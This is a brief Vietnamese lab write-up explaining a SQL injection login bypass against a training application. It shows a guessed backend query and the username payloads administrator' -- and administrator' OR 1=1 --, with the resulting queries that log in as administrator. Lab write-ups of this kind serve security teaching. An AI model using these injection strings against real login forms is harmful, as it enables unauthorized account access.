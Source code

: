 
++ Để giải quyết bài lab, hãy thực hiện một cuộc tấn công SQL SQL đăng nhập vào ứng dụng với tư cách là administratorngười dùng.
++ Vì vậy ta có thể đoán rằng câu truy vấn SQL như sau : 
                                        SELECT * FROM users WHERE username = ${POST['USERNAME]} AND password = ${POST['PASSWD']};

++ Mà ta lại biết được username là administrator vì vậy nếu như post của username là administrator' -- hay là administrator' OR 1=1 -- còn mật khẩu tùy ý @@
++ Lúc này câu truy vấn của bạn sẽ trở thành như này :
                                        SELECT * FROM users WHERE username = 'administrator' -- AND password = 'blabla@@@@'
                                        hay là như này SELECT * FROM users WHERE username = 'administrator' OR 1=1 -- AND password = 'blabla@@@@'
                                        thì nó cũng đúng đúng không nhưng mà mấu chốt của đăng nhập thì thường sẽ trả ra 1 object user nên ta sẽ dùng cách 
                                         1 để bypass đăng nhập ... vậy là xong
                                         à trường hợp này chắc họ chỉ check quoa loa nên cả 2 đều được :)))

@@ Vậy là đã thành công chúc bạn thành công :)) WU By l3mh0cr3d